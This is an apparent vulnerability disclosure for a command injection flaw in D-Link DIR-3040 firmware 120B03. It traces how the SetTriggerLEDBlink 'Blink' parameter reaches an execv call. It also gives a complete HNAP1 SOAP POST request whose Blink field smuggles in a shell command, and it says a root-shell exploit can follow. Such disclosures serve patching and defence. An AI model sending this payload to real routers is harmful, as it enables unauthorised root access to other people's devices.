



# D-link DIR3040_A1_FW120B03.bin Command injection vulnerability

## Overview

- Manufacturer's website information：https://www.dlink.com/
- Firmware download address ：https://tsd.dlink.com.tw/


A problem was found on the D-Link DIR-3040 device with firmware 120B03. This problem is a command injection that allows remote attackers to execute arbitrary code and obtain a root shell. Command injection vulnerabilities allow attackers to execute arbitrary operating system commands via a crafted/HNAP1 POST request.


## Vulnerability details

DIR-3040 prog.cgi  Keyword api SetTriggerLEDBlink



The content obtained by the program through the / settriggerledblink / blink parameter is passed to nptr, and then nptr passes the matched content to V6 through the sprintf function, and then V6 is brought into the twsystem function



At this time, the corresponding parameter is A1



twsystem() function will pass in two parameters, the first is the parameter address, and the second is a constant. This function forks () a child process, and then executes a system call (execv()) in the child process.

##  POC

1. Attack with the following POC attacks

```xml
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1:7018
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:98.0) Gecko/20100101 Firefox/98.0
Accept: text/xml
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: text/xml
SOAPACTION: "http://purenetworks.com/HNAP1/SetNetworkSettings"
HNAP_AUTH: 3C5A4B9EECED160285AAE8D34D8CBA43 1649125990491
Content-Length: 632
Origin: http://192.168.0.1:7018
Connection: close
Referer: http://192.168.0.1:7018/Network.html
Cookie: SESSION_ID=2:1556825615:2; uid=TFKV4ftJ

<?xml version="1.0" encoding="UTF-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
<soap:Body>
  <SetLEDStatus xmlns="http://purenetworks.com/HNAP1/">
	<Enabled>false</Enabled>
  </SetLEDStatus>
  <SetTriggerLEDBlink>
  	<Blink>&& ls > /tmp/456 &&echo 1></Blink>
	</SetTriggerLEDBlink>
</soap:Body>
</soap:Envelope>

```

Finally, you can write exp, which can achieve a very stable effect of obtaining the root shell
